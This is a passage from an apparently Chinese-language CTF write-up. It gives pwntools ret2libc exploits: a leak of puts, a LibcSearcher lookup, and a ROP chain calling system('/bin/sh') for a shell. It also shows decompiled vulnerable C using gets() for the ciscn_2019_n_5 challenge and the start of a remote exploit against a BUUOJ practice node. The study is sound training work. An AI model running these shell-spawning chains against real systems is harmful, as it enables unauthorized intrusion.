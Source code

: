 ```python
puts_addr=u64(r.recvuntil('\n')[:-1].ljust(8,b'\0'))
print(hex(puts_addr))
libc = LibcSearcher('puts',puts_addr)
Offset = puts_addr - libc.dump('puts')
binsh = Offset+libc.dump('str_bin_sh')
system = Offset+libc.dump('system')
r.sendlineafter('Input your choice!\n','1')
payload = b'\x00'+b'a'*(offset-1)
payload=payload+p64(ret)
payload=payload+p64(pop_rdi)
payload=payload+p64(binsh)
payload=payload+p64(system)
r.sendlineafter('Input your Plaintext to be encrypted\n',payload)
 
r.interactive()
```

## ciscn_2019_n_5
 知识点：ret2libc或ret2shellcode

 ![alt text](image-14.png)

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char text[30]; // [rsp+0h] [rbp-20h] BYREF

  setvbuf(stdout, 0LL, 2, 0LL);
  puts("tell me your name");
  read(0, name, 0x64uLL);
  puts("wow~ nice name!");
  puts("What do you want to say to me?");
  gets(text);
  return 0;
}

```

 发现什么保护都没开，可以考虑ret2libc和ret2shellcode

 方法一：先用ret2libc，更熟悉这个一些
 发现没什么弯弯绕绕，就可以直接泄漏libc基址
 exp:
 ```python
from pwn import*
from LibcSearcher import*
r=remote('node5.buuoj.cn',27924)
elf=ELF('./1')
main = 0x0400636
pop_rdi = 0x00400713
ret = 0x04004c9 
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
r.sendlineafter('your name','aaa')
 ```